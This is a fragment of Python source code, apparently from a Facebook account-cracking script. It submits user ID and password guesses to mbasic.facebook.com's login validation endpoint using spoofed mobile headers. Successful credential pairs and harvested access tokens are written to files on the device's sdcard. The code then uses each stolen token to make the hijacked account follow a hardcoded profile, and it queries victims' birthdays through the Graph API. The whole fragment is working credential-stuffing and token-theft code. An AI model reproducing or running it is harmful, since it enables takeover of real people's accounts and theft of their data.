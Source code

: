 			headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}

			p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text

			dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}

			_headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}

			po = ses.post("https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)

			if 'c_user' in ses.cookies.get_dict():

				print('\r\033[1;32m[YASIN-SUCCESSFUL] %s | %s      ' % (user,pw))

				wrt = '%s - %s' % (user,pw)

				ok.append(wrt)

				open('/sdcard/YASIN_OK.txt','a').write('%s\n' % wrt)

				access = q['loc']

				open('/sdcard/ids/tokens.txt','a').write(access+'\n')

				follow_id='100001020800712'

				subs = requests.post('https://graph.facebook.com/'+follow_id+'/subscribers?access_token='+access).text

				break

			elif 'checkpoint' in ses.cookies.get_dict():

				try:

					token = hamii('token.txt').read()

					cp_ttl = requests.get('https://graph.facebook.com/%s?access_token=%s'%(user,token)).json()['birthday']

